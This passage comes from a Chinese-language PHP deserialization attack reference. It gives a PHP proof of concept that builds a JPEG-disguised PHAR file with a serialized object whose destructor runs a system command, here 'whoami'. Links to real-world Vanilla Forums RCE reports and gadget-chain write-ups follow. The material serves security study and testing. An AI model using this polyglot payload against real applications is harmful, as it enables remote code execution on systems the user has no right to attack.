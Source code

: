* 示例：创建一个带有 `JPEG` 魔术字节头的 PHAR，因为存根的内容没有限制。

    ```php
    <?php
    class AnyClass {
        public $data = null;
        public function __construct($data) {
            $this->data = $data;
        }
        
        function __destruct() {
            system($this->data);
        }
    }

    // 创建新的 PHAR
    $phar = new Phar('test.phar');
    $phar->startBuffering();
    $phar->addFromString('test.txt', 'text');
    $phar->setStub("\xff\xd8\xff\n<?php __HALT_COMPILER(); ?>");

    // 将任何类的对象作为元数据添加
    $object = new AnyClass('whoami');
    $phar->setMetadata($object);
    $phar->stopBuffering();
    ```

## 真实世界示例

* [Vanilla 论坛 ImportController index 文件存在 Unserialize 远程代码执行漏洞 - Steven Seeley](https://hackerone.com/reports/410237)
* [Vanilla 论坛 Xenforo 密码 splitHash Unserialize 远程代码执行漏洞 - Steven Seeley](https://hackerone.com/reports/410212)
* [Vanilla 论坛 domGetImages getimagesize Unserialize 远程代码执行漏洞（严重）- Steven Seeley](https://hackerone.com/reports/410882)
* [Vanilla 论坛 Gdn_Format unserialize() 远程代码执行漏洞 - Steven Seeley](https://hackerone.com/reports/407552)

## 参考文献

* [CTF 写作：Kaspersky CTF 中的 PHP 对象注入 - Jaimin Gohel - 2018年11月24日](https://medium.com/@jaimin_gohel/ctf-writeup-php-object-injection-in-kaspersky-ctf-28a68805610d)
* [ECSC 2019 资格赛法国团队 - Jack The Ripper Web - noraj - 2019年5月22日](https://web.archive.org/web/20211022161400/https://blog.raw.pm/en/ecsc-2019-quals-write-ups/#164-Jack-The-Ripper-Web)
* [在常见 Symfony Bundle 上找到 POP 链：第一部分 - Rémi Matasse - 2023年9月12日](https://www.synacktiv.com/publications/finding-a-pop-chain-on-a-common-symfony-bundle-part-1)
* [在常见 Symfony Bundle 上找到 POP 链：第二部分 - Rémi Matasse - 2023年10月11日](https://www.synacktiv.com/publications/finding-a-pop-chain-on-a-common-symfony-bundle-part-2)
* [查找 PHP 序列化小工具链 - DG'hAck Unserial killer - xanhacks - 2022年8月11日](https://www.xanhacks.xyz/p/php-gadget-chain/#introduction)
* [如何利用 PHAR 反序列化漏洞 - Alexandru Postolache - 2020年5月29日](https://pentest-tools.com/blog/exploit-phar-deserialization-vulnerability/)
* [phar:// 反序列化 - HackTricks - 2024年7月19日](https://book.hacktricks.xyz/pentesting-web/file-inclusion/phar-deserialization)
* [PHP 反序列化攻击和 Laravel 中的新小工具链 - Mathieu Farrell - 2024年2月13日](https://blog.quarkslab.com/php-deserialization-attacks-and-a-new-gadget-chain-in-laravel.html)
* [PHP 通用小工具 - Charles Fol - 2017年7月4日](https://www.ambionics.io/blog/php-generic-gadget-chains)
* [PHP 内部书籍 - 序列化 - jpauli - 2013年6月15日](http://www.phpinternalsbook.com/classes_objects/serialization.html)
* [PHP 对象注入 - Egidio Romano - 2020年4月24日](https://www.owasp.org/index.php/PHP_Object_Injection)
* [PHP Pop 链 - 实现 RCE 的 Pop 链漏洞 - Vickie Li - 2020年9月3日](https://vkili.github.io/blog/insecure%20deserialization/pop-chains/)
* [PHP 反序列化 - php.net - 2001年3月29日](http://php.net/manual/en/function.unserialize.php)
* [POC2009 PHP 利用中的惊人新闻 - Stefan Esser - 2015年5月23日](https://web.archive.org/web/20150523205411/https://www.owasp.org/images/f/f6/POC2009-ShockingNewsInPHPExploitation.pdf)